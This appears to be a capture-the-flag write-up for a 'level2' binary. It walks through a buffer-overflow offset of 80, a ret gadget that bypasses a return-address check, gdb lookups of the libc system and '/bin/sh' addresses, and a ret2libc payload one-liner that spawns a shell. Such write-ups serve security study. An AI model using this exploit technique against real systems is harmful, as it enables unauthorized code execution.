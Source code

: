 # level2

[Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) give you pattern to find **offset** at **80**

To avoid protection about `0xb00000` in `p()`: \
Add the return address of one ret (main or p return)

Then the `system` function address: \
`gdb info function system` to get `0xb7e6b060`

The address of libc's `"/bin/sh"`: \
`gdb find &system, +99999, "/bin/sh"` => We found `0xb7f8cc58`


We can build our payload:
```bash
(python -c 'print "A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "dumm" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
```
